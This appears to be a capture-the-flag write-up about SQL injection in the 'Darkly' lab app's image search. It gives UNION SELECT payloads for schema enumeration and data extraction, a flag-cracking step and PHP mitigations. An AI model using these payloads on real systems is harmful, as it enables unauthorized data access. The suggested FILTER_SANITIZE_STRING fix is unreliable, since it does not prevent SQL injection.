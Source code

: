 # Vulnerability Report

## Summary

An SQL Injection vulnerability exists in the image search feature of the `Darkly` application. This flaw allows attackers to manipulate SQL queries to access unauthorized data, enumerate database schemas, and compromise sensitive information.

## Vulnerability details

### CWE Reference

- CWE ID: [CWE-89: Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection')](https://cwe.mitre.org/data/definitions/89.html)

### Description

The application does not properly handle user input submitted through the search field on the `Image Search` page. The lack of parameterized queries and input validation allows attackers to inject malicious SQL payloads. By exploiting this vulnerability, attackers can enumerate the database structure, extract sensitive information, and execute unauthorized actions on the database.

### Steps to reproduce

1. Navigate to the `Image Search` feature at [searchimg](http://darkly/index.php?page=searchimg).

2. Inject `1 OR 1=1` into the search field.

3. Submit the form and observe that all images are displayed, confirming the SQL Injection vulnerability.

### Exploitation process

1. Determine the number of columns:
   - Inject payloads such as `ORDER BY 1`, `ORDER BY 2`, etc., to find that the query uses 2 columns.

2. Extract database name:
   - Inject `1 UNION SELECT NULL, DATABASE()` to retrieve the database name `Member_images`.

3. List tables:
   - Use `1 UNION SELECT NULL, table_name FROM information_schema.tables WHERE table_schema = 0x4d656d6265725f696d61676573` to identify the table `list_images`.

4. Enumerate columns:
   - Inject `1 UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name = 0x6c6973745f696d61676573` to identify columns `id`, `url`, `title`, and `comment`.

5. Extract data:
   - Inject `1 UNION SELECT title, comment FROM list_images` to extract the `title` and `comment` fields from the `list_images` table.

6. Find the flag:
   - Locate the hint `If you read this just use this md5 decode lowercase then sha256 to win this flag!: 1928e8083cf461a51303633093573c46`.

7. Decode MD5 and generate SHA256:
   - Decode `1928e8083cf461a51303633093573c46` to `albatroz` using a tool like CrackStation.
   - Convert the result to SHA256 to retrieve the flag using:
     ```bash
     echo -n albatroz | sha256sum
     ```

### Impact

The impact of this vulnerability is critical. It allows attackers to:
- Access sensitive database information, such as schemas, tables, and records.
- Execute unauthorized queries, potentially leading to data breaches and system compromise.

## Mitigation

1. Use Prepared Statements and Parameterized Queries:
   - Replace dynamic queries with parameterized ones. Example in PHP:
     ```php
     $stmt = $pdo->prepare("SELECT * FROM list_images WHERE id = ?");
     $stmt->execute([$id]);
     ```

2. Input Validation:
   - Validate and sanitize all user inputs server-side. Reject patterns indicative of SQL Injection.
   - Example: Use a whitelist to restrict input to expected patterns and lengths. In PHP:
     ```php
     if (!preg_match('/^[a-zA-Z0-9_]+$/', $input)) {
         die("Invalid input.");
     }
     ```
   - Alternatively, use a validation library such as `filter_var()`:
     ```php
     $input = filter_var($input, FILTER_SANITIZE_STRING);
     ```

## References

2. [OWASP SQL Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
